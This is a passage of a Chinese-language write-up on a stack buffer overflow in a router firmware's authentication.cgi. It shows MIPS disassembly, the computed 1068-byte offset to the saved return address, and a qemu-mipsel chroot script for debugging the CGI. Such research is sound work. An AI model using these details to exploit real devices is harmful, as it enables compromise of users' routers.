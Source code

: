 	.text:0040B4CC jalr $t9 ; atoi

	.text:0040B4D0 move $a0, $v0 # nptr

	.text:0040B4D4 lw $gp, 0xF90+var_F78($sp)

	.text:0040B4D8 move $s0, $v0

	.text:0040B4DC la $v1, stdin

	.text:0040B4E0 la $t9, fileno

	.text:0040B4E4 lw $a0, (stdin - 0x435040)($v1) # stream

	.text:0040B4E8 jalr $t9 ; fileno

	.text:0040B4EC addiu $s1, $sp, 0xF90+var_430

	.text:0040B4F0 lw $gp, 0xF90+var_F78($sp)

	.text:0040B4F4 move $a0, $v0 # fd

	.text:0040B4F8 la $t9, read

	.text:0040B4FC move $a1, $s1 # buf

	.text:0040B500 jalr $t9 ; read

	.text:0040B504 move $a2, $s0 # nbytes

找到了溢出点，来计算一下覆盖到主函数的返回地址需要多少位。

	sw $ra, 0xF90+var_4($sp)

	addiu $s1, $sp, 0xF90+var_430

	0x430-0x4=1068

用脚本测试一下

脚本：

	#!/bin/bash

	INPUT="$1"

	TEST="$2"

	LEN=$(echo -n $INPUT | wc -c)

	PORT="1234"

	if [ "$LEN" == "0" ] || [ "$INPUT" == "-h" ] || [ "$UID" != "0" ]

		then

			echo -e "nusage: sudo $0n"

			exit 1

	fi

	cp $(which qemu-mipsel) ./qemu

	echo "$INPUT" | chroot . ./qemu -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencodede" -E REQUEST_METHOD="POST" -E REQUEST_URI="/authentication.cgi" -E REMOTE_ADDR="192.168.1.1" -g $PORT /htdocs/web/authentication.cgi 2>/dev/null
